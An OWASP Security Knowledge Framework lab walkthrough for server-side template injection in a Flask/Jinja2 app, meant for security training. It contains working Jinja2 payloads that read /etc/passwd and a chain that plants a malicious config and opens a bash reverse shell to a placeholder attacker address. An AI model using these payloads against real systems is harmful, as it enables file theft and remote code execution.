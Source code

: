 # KBID 267 - SSTI

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:ssti
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:ssti
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever. 

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied  with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](.gitbook/assets/ssti1.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?  
  
First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

And here we find the following information.

```text
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... ## for Line Statements
```

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```text
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](.gitbook/assets/screen-shot-2019-01-10-at-13.13.36.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:  
[  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment 

Now, lets find some usefull injections for Jinja2.  
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.05.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.36.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```text
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)  
  
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)  
  
[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)  
  


